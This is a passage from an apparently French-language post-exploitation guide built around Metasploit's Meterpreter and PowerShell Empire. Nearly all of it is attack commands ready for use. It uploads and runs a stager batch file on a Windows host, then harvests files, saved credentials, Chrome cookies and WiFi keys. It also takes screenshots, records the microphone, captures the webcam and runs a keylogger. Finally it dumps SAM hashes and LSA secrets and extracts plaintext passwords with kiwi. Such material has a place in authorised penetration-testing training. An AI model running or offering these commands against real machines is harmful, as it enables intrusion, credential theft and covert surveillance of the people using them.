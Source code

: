 Exécution du stager depuis Meterpreter :
```
meterpreter > upload /tmp/launcher.bat C:\\Windows\\Temp\\
meterpreter > shell
C:\Windows\Temp> launcher.bat
```

> **POURQUOI ?**  
> PowerShell Empire offre des capacités post-exploitation avancées et des mécanismes de persistance sophistiqués qui complètent parfaitement Metasploit. L'utilisation combinée de ces deux frameworks permet une approche plus flexible et plus puissante.

## Collecte d'informations (Pillage)

### Extraction de données sensibles

```
# Recherche de fichiers intéressants
meterpreter > run post/windows/gather/enum_files

# Recherche de mots de passe
meterpreter > run post/windows/gather/credentials/credential_collector

# Extraction des cookies de navigateur
meterpreter > run post/windows/gather/enum_chrome

# Extraction des clés WiFi
meterpreter > run post/windows/gather/enum_wifi
```

### Capture d'écran et surveillance

```
# Capture d'écran
meterpreter > screenshot

# Enregistrement audio
meterpreter > record_mic -d 10

# Activation de la webcam
meterpreter > webcam_list
meterpreter > webcam_snap -i 1

# Keylogger
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

### Extraction de hachages et de secrets

```
# Extraction des hachages SAM
meterpreter > run post/windows/gather/hashdump

# Extraction des secrets LSA
meterpreter > run post/windows/gather/lsa_secrets

# Extraction des mots de passe en clair
meterpreter > load kiwi
meterpreter > creds_all
```
